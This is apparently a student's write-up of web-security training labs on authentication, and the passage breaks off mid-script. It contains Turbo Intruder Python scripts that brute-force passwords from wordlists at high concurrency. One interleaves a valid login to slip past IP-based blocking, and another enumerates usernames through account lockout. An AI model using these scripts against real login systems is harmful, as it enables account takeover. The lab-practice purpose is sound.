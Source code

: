 ```
    for password in passwords:
        # Immediately queue wiener/peter after each carlos request
        engine.queue(target.req, ["wiener", "peter"])
        
        # Queue the carlos attempt
        engine.queue(target.req, ["carlos", password.rstrip()])
        
        


def handleResponse(req, interesting):
    if req.status != 404:
        table.add(req)
```
- I got carlos password and solved the lab

# Account locking
- One way in which websites try to prevent brute-forcing is to lock the account if certain suspicious criteria are met, usually a set number of failed login attempts. 
- Just as with normal login errors, responses from the server indicating that an account is locked can also help an attacker to enumerate usernames.

# Lab: Username enumeration via account lock
-  This lab is vulnerable to username enumeration. It uses account locking, but this contains a logic flaw. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

# My Solution
- I sent the request to burp intruder and set the %s on both the username and password
- In turbo I ran the following code
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=100,
                           requestsPerConnection=1000,
                           pipeline=False
                           )


    usernames = open('/home/kali/authenticationlabusernames').read().splitlines()
    passwords = open('/home/kali/authenticationlabpassword').read().splitlines()

    for username in usernames:
        for password in passwords:
            engine.queue(target.req, [username, password])
           


def handleResponse(req, interesting):
    if req.status != 404:
        table.add(req)
```
- When the attack complete one of the username stood out because it was locked out.
- I sent the request to repeater and send it back to the intruder the use the following code
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=10,
                           pipeline=False
```